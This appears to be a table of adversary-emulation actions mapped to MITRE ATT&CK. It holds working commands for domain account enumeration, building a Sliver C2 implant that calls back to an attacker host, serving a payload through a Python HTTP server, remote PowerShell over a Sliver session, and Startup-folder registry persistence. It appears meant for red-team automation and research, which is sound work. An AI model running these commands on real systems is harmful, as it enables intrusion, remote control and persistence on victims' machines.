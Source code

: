 | 6fbc9e68-5ad7-444a-bd11-8bf3136c477e | Enumerate all accounts (Domain) | \['T1087.002'\] | ART | \['windows'\] | \['Discovery'\] | \['Account Discovery: Domain Account'\] | Enumerate all accounts<br>Upon exection, multiple enumeration commands will be run and their output displayed in the PowerShell session<br> | {'executor': 'Command Prompt Executor', 'command': 'net user /domain\nnet group /domain\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(user_info_known ?target - host)'\] |
| 0e67b73a-9927-43e1-8f64-04d38f1db57d | Build the executable file of a Sliver implant (for Windows) | \['T1071.001'\] | Manual | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | The command is used in the Sliver C2 (Command and Control) framework to generate a payload designed for remote access to a target machine.<br> | {'executor': 'Sliver Console', 'command': 'sliver > generate --mtls #{LHOST}:#{LPORT} --os windows --arch 64bit --format exe --save #{SAVE_PATH}\nsliver > mtls --lport #{LPORT}\n'} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the generated payload', 'type': None}} | \['(os_windows ?target - host)', '(unallocated ?p - payload)', '(unallocated ?file - file)'\] | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?file - file)', '(file_prepared_local ?file - file)', '(exe_file ?file - file)', '~(unallocated ?p - payload)', '~(unallocated ?file - file)'\] |
| 7480189e-1a4b-45f5-b225-c102915f7262 | Simulate the victim download a file on its machine | \['T1566.002'\] | Manual | \['windows'\] | \['Initial Access'\] | \['Phishing: Spearphishing Link'\] | This step simulates the victim accidentally downloads a malicious file by clicking a link. | {'executor': 'Human', 'command': "(This step needs human interaction and (temporarily) cannot be executed automatically)\n(On attacker's machine)\npython -m http.server\n\n(On victim's machine)\n1. Open #{LHOST}:#{LPORT} in the browser\n2. Navigate to the path of the file on the attacker's machine\n3. Download the file to #{PATH}\n"} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the downloaded payload', 'type': None}} | \['(file_prepared_local ?file - file)'\] | \['(file_exists ?path - path ?file - file ?t - host)'\] |
| 7bfba376-cebc-4094-b1e6-5103b2e83c4e | Execute PowerShell Command | \['T1059.001'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: PowerShell\n'\] | The `powershell.exe` command executes a PowerShell script or command on the remote host. This command is useful for performing system monitoring tasks or gathering information about the processes running on a remote machine. | {'executor': 'Sliver Executor', 'command': 'powershell(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(powershell ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |
| 8834b65a-f808-4ece-ad7e-2acdf647aafa | Change Startup Folder - HKCU Modify User Shell Folders Startup Value | \['T1547.001'\] | ART | \['windows'\] | \['Persistence', 'Privilege Escalation'\] | \['Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder'\] | This test will modify the HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders  -V "Startup" value <br>to point to a new startup folder where a payload could be stored to launch at boot.  *successful execution requires system restart<br> | {'executor': 'Powershell Executor', 'command': 'New-Item -ItemType Directory -path "#{new_startup_folder}"\nCopy-Item -path "#{payload}" -destination "#{new_startup_folder}"\nSet-ItemProperty -Path  "HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\User Shell Folders" -Name "Startup" -Value "#{new_startup_folder}"\n'} | {'new_startup_folder': {'description': 'new startup folder to replace standard one', 'type': 'string', 'default': '$env:TMP\\atomictest\\'}, 'payload': {'description': 'executable to be placed in new startup location ', 'type': 'string', 'default': 'C:\\Windows\\System32\\calc.exe'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(file_exists ?payload - path ?file - file ?target - host)', '(exe_file ?file - file)'\] | \['(file_execution_at_startup ?file - file ?target - host)'\] |
| f7f31777-1bbf-4ddc-b7a1-af9f46a5299b | Obtain a persistent Sliver Executor | \[None\] | Manual | \['windows', 'linux', 'macos'\] | \['Persistence'\] | \[None\] | Obtain the persistency of Sliver Executor via scheduled payload file execution.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?f - file)', {'operator': 'or', 'operands': \['(file_execution_at_time ?f - file ?target - host)', '(file_execution_at_startup ?f - file ?target - host)'\]}, '(unallocated ?s - executor)'\] | \['(persistent_sliver_session ?s - executor ?target - host)', '~(unallocated ?s - executor)'\] |